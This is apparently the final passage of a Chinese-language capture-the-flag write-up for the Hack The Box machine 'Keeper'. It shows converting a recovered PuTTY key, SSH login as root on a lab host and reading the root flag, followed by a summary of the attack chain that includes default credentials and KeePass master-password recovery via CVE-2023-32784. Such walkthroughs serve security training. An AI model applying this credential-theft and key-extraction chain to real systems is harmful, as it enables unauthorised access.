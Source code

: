 ```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
...（省略）...
```

### 轉換 PuTTY 密鑰為 OpenSSH 格式

將 PuTTY 密鑰內容保存為 `root.ppk`，然後轉換：

```bash
puttygen root.ppk -O private-openssh -o root.key
chmod 600 root.key
```

### SSH 以 Root 登入

```bash
ssh -i root.key root@10.10.11.227
```

成功獲得 root shell！

```bash
cat /root/root.txt
```

## Flags

```
user.txt: 9********************************5
root.txt: f********************************c
```

## 總結

Keeper 是一個很棒的 Easy 級別機器，教導了多個重要概念：

### 攻擊路徑

1. **預設憑證** → RT Admin 訪問
2. **資訊洩露** → 用戶密碼
3. **SSH 訪問** → 用戶權限
4. **CVE-2023-32784** → KeePass 主密碼恢復
5. **憑證提取** → Root SSH 密鑰
6. **密鑰轉換** → Root 訪問

### 學習要點

- 始終嘗試預設憑證
- 注意應用程式中的註解和備註
- KeePass 記憶體漏洞的實際利用
- PuTTY 與 OpenSSH 密鑰格式轉換
- 密碼管理器的安全性
